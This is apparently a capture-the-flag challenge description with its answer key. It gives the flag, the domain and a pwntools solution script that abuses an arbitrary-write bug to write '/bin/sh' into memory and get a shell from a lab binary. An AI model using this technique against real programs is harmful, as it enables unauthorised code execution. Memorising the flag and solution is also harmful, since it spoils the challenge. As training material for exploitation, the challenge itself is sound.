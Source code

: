 # ArbWrite

This challenge is about using an arbitrary write primitive.

# Flag(s) 
`DDC{cool_primitive_right?}`

# Domain name (OR) Link to challenge on nextcloud
`arbwrite.hkn`

# Description(s) (THIS IS WHAT THE USER WILL SEE, YOU CAN USE MARKDOWN HERE))
## arbwrite
Abuse this spell!

# Prerequisites and Outcome

Prerequisites:
None

# Solutions (FULL WRITEUP FOR EACH FLAG.)

## Flag 1
Run the program locally in a debugger, and perform two writes.
1. A write of /bin/sh to a writable known address.
2. A write of the known address to the date variable.

Then call the `check_time` function to execute the overwritten string.
```py
from pwn import *

def arb_write(x, v):
    r.sendline("2")
    r.recvuntil("aim?\n")
    r.sendline(str(x))
    r.recvuntil("spell?")
    r.sendline(str(len(v)))
    r.recvuntil("words?")
    r.sendline(v)
    r.recvuntil("Casting...\n")

r = remote("localhost", 1024)
r.recvuntil("time\n")

# Writes:
arb_write(0x404ff0, "/bin/sh")
arb_write(0x404070, p64(0x404ff0))

r.sendline("3")
r.interactive()
```